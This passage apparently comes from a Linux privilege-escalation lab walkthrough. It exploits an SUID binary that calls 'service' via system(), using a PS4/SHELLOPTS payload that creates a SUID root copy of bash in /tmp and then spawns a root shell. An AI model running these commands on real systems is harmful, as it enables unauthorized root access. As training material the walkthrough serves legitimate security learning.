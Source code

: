 the file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

This reveals that the system function is being used to execute the service program. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

#### `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash file with the -p command line option to get a root shell:

#### `/tmp/rootbash -p`
